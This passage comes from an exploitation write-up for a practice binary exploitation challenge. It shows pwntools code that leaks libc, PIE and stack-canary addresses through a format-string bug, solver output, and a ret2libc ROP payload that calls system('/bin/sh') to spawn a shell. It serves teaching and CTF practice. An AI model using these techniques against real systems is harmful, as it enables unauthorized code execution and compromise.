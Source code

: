 ### Canary 🐦

`Canary` is just leaked as it is.

```python
# Leak libc, PIE and canary
r.sendlineafter(prompt, "%3$p %46$p %47$p")
libc_addr, pie_addr, canary = r.recvline().split()

# Calculate libc base from leaked function
libc.address = int(libc_addr, 16) - 0x110151
e.address    = int(pie_addr, 16) - (int(pie_addr, 16) & 0xfff)
canary = int(canary, 16)
print(colored("[+] Libc base @ " + str(hex(libc.address))))
print(colored("[+] PIE base  @ " + str(hex(e.address))))
print(colored("[+] Canary    @ " + str(hex(canary))))
```

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/challenge8'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge8'
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 328
[+] Libc base @ 0x7f6c67f43000
[+] PIE base  @ 0x55a32e8a1000
[+] Canary    @ 0x180dce4f11982c00
```

Now that we have everything we need, we just perform a `ret2libc` attack.

```python
def ret2libc(r, prompt, offset, canary):
  # Check if libc base is correct, should end with 000
  if libc.address & 0xfff != 000:
   print(colored("[-] Libc base does not end with 000!", "red"))
   exit()

  # Craft payload to call system("/bin/sh") and spawn shell
  pop_rdi  = rop.find_gadget(["pop rdi"])[0] + e.address
  payload  = b"A"*offset
  payload += p64(canary)
  payload += p64(0xdeadbeef) # alignment value
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(pop_rdi + 1)
  payload += p64(libc.sym.system)
  r.sendlineafter(prompt, payload)
  r.interactive()
```

